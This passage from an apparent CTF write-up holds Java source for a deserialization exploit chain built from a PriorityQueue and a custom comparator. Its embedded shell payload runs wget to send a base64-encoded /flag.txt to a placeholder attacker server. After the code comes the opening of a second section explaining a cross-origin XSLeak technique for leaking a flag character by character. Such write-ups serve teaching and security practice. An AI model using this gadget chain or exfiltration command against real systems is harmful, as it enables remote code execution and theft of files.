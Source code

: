 ```java
            uuid.set(auth, new String("f5a5a608"));
            Field name = Author.class.getDeclaredField("name");
            name.setAccessible(true);
            name.set(auth, new String("sh -c $@|sh . echo wget http://Your_Server?a=$(cat /flag.txt|base64|tr -d \"\n\")"));
            final ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            final ObjectOutputStream objectOutputStream;
            objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(auth);
            objectOutputStream.close();
            String secondSerial = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());

            Constructor ctor =  QuestionCompar.class.getDeclaredConstructor();
            ctor.setAccessible(true);
            Comparator comparator=(Comparator) ctor.newInstance();
            Field var1 = QuestionCompar.class.getDeclaredField("internal");
            var1.setAccessible(true);
            var1.set(comparator, secondSerial);
            final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
            queue.add(new String("1"));
            queue.add(new String("1"));


            FileOutputStream fileOutputStream
                    = new FileOutputStream("result");
            ObjectOutputStream oos
                    = new ObjectOutputStream(fileOutputStream);
            oos.writeObject(queue);
            oos.flush();
            oos.close();

            System.out.println("Object has been serialized");
        } catch (Exception var6) {
            System.out.println("IOException is caught");
	    var6.printStackTrace();
        }
    }
}


```

In a nutshell, this exploit starts by creating a ProprityQueue object implementing QuestionCompar as a custom comparator after setting the internal attribute to the value of Author class serialized and Base64 encoded.

## NarutoKeeper
XSLeak vulnerability attracted me a lot lately so as a ritual I'm publishing a different challenge about this vulnerability in every CTF. This particular challenge was meant to be harder, but due to a little mistake it was solved with another technique, so I decided to keep the intended solution for a future CTF since it's worth the effort.
![TASK](https://i.imgur.com/is1Wwwa.png)
As every XSLeak challenge we need to leak the flag from a cross origin context. Here in the search endpoint we can notice that is the answer is correct we will be redirected to /view endpoint otherwise we will receive a no results message. So if we detect if the redirect has happened or not in cross origin, we will manage to exfiltrate the flag char by char.
